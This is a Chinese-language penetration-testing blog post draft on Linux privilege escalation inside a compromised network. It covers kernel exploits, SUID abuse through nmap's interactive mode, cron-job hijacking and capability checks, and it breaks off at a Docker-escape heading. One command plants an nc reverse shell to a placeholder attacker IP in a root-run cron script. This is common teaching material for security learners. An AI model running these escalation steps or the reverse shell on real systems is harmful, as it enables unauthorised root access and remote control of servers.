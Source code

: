 ```yaml
---
layout: post
title: 内网提权
subtitle: 内网提权
date: 2025-09-18 11:33
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
number headings: 
published: false
---
```


拿到操作系统和数据库的权限，相当于拿到了内网渗透的关键钥匙。 从操作系统到数据库再到内网横向移动，每一步都需要细致的计划和操作。下面详细讲解如何利用这两个权限提升到内网渗透，并尽量覆盖各种场景。

**第一部分：获取操作系统最高权限**

假设你已经通过某种方式获得了一台服务器的操作系统权限，现在目标是提升到最高权限（Linux 的 root 或 Windows 的 Administrator）。

**Linux 提权**

*   **内核漏洞利用：**
    *   **方法：** 查找与当前内核版本匹配的公开漏洞。 使用工具如 `Linux Exploit Suggester` 或手动搜索 Exploit Database。
    *   **场景：** 古老的 Linux 系统，没有及时打补丁。
    *   **工具：** Metasploit, 编译好的 exp。
    *   **命令示例：**
        ```bash
        # 假设找到一个针对 Linux kernel 2.6 的漏洞
        gcc exploit.c -o exploit
        ./exploit
        ```
*   **SUID/SGID 权限滥用：**
    *   **方法：** 查找具有 SUID 或 SGID 权限的异常文件。 利用这些文件执行本来不应该执行的操作。
    *   **场景：** 开发者错误配置了某些程序的权限。
    *   **命令示例：**
        ```bash
        find / -perm -4000 -o -perm -2000 -print 2>/dev/null
        # 找到 nmap 有 SUID 权限，可以这样提权：
        nmap --interactive
        !sh
        ```
*   **计划任务 (Cron Jobs) 滥用：**
    *   **方法：** 检查 `/etc/crontab` 和 `/etc/cron.d/` 目录，看是否有可以修改或利用的计划任务。
    *   **场景：** 某个脚本以 root 身份运行，但其所有者可被当前用户修改。
    *   **命令示例：**
        ```bash
        # 修改计划任务执行的脚本，植入反弹 shell
        echo "nc -e /bin/bash <攻击者IP> <端口>" >> /path/to/vulnerable/script.sh
        ```
*   **利用 Capabilities：**
    *   **方法:** Linux Capabilities 是一种更细粒度的权限管理机制，可以赋予进程特定的 root 权限，而无需完全的 root 身份。 我们可以查找具有特定 Capabilities 的程序并利用它们。
    *   **命令示例：**
        ```bash
        # 查找具有 cap_setuid capability 的程序
        getcap -r / 2>/dev/null
        ```
*   **Docker 逃逸：**
